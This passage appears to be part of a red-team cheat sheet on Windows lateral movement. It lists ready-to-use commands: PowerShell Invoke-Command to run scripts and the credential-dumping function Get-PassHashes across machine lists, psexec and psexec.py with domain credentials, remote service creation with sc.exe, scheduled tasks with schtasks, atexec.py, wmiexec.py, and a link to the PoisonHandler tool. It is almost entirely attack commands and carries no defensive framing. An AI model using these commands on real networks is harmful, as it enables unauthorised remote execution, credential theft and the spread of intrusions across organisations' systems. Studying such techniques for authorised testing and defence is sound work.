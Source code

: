 #### Load script on machine
```
Invoke-Commannd -Filepath <PATH TO SCRIPT> -Session $sess
```

#### Execute script on multiple machines
```
Invoke-Command –FilePath script.ps1 -ComputerName (Get-Content computers.txt)
```

#### Execute locally loaded function on remote machines:
```
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content computers.txt)
```

#### Copy item through PSSession
```
Copy-Item -ToSession $sess -Path <PATH> -Destination <DEST> -verbose
```

### PSexec
```
psexec.exe -u <DOMAIN>\<USER> -p <PASSWORD> \\<TARGET> cmd.exe
python psexec.py <DOMAIN>/<USER>:<PASSWORD>@<TARGET>
```

### SC.exe
- Smbexec.py can be used to automate the process
```
sc.exe \\<TARGET> create SERVICE_NAME displayname=NAME binpath="COMMAND" start=demand
sc.exe \\<TARGET> start SERVICE_NAME
sc.exe \\<TARGET> delete SERVICE_NAME
```

### Schtasks.exe
```
schtasks /create /F /tn <TASKNAME> /tr COMMAND /sc once /st 23:00 /s <TARGET> /U <USER> /P <PASSWORD>
schtasks /run /F /tn <TASKNAME> /s <TARGET> /U <USER> /P <PASSWORD>
schtasks /delete /F /tn <TASKNAME> /s <TARGET>
```

### AT
```
reg.py
atexec.py
```

### WMI
```
wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<TARGET>
``` 

### PoisonHandler
- https://github.com/Mr-Un1k0d3r/PoisonHandler
